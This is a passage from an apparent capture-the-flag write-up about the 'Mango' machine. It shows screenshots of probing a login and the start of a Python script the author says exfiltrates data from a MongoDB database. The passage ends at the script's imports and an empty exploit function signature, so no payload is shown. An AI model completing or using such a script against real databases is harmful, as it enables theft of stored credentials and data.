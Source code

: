 Opened the response in the browser.

<img src="/assets/img/mango-updated/image 7.png" alt="image 7.png" style="width:800px;">

Nothing here. Let’s try something different.

<img src="/assets/img/mango-updated/image 8.png" alt="image 8.png" style="width:800px;">

Created a Python script to exfiltrate the data from the MongoDB database.

```python
#!/usr/bin/env python3

# Author: duskb1t

import argparse
import requests
import string
import sys
from pwn import *
from termcolor import colored

def exploit(target, user=None):
```